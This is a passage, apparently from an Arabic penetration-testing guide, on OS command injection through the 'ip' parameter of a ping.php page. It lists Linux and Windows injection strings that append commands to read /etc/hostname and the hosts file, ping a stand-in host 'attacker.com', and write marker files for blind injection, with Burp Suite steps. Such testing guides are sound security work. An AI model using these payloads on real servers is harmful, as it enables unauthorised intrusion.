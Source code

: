   - سجّل الملفات لتحديد الأهداف (مثل ملفات التكوين).

#### د. قراءة ملف بسيط
- **Linux**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1; cat /etc/hostname
    ```
  - **الأمر**: `cat /etc/hostname`
  - **النتيجة المتوقعة**: اسم الخادم (مثل `webserver01`).
- **Windows**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1 & type C:\Windows\System32\drivers\etc\hosts
    ```
  - **الأمر**: `type C:\Windows\System32\drivers\etc\hosts`
  - **النتيجة المتوقعة**: محتويات ملف `hosts`.
- **متى يُستخدم؟**:
  - لاختبار الوصول إلى ملفات غير حساسة قبل استهداف ملفات مهمة.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - تحقق من ظهور محتويات الملف.

#### هـ. اختبار الاتصال
- **Linux**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1; ping -c 1 attacker.com
    ```
  - **الأمر**: `ping -c 1 attacker.com`
  - **النتيجة المتوقعة**: استجابة من `attacker.com` أو تأكيد الاتصال.
- **Windows**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1 & ping -n 1 attacker.com
    ```
  - **الأمر**: `ping -n 1 attacker.com`
  - **النتيجة المتوقعة**: نفس الشيء.
- **متى يُستخدم؟**:
  - للتحقق إذا كان الخادم يسمح بالاتصال الخارجي.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - راقب استجابة `ping` أو استخدم خادمك لتأكيد الاتصال.

### 3. أوامر اختبار Blind Injection
الهدف هو اختبار الثغرة في حالة عدم ظهور مخرجات الأوامر (Blind Injection).

#### أ. إنشاء ملف للتأكيد
- **Linux**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1; echo "Hacked" > /tmp/test.txt
    ```
  - **الأمر**: `echo "Hacked" > /tmp/test.txt`
  - **النتيجة المتوقعة**: إنشاء ملف `/tmp/test.txt`. تحقق لاحقًا:
    ```
    http://example.com/ping.php?ip=127.0.0.1; cat /tmp/test.txt
    ```
- **Windows**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1 & echo Hacked > C:\Temp\test.txt
    ```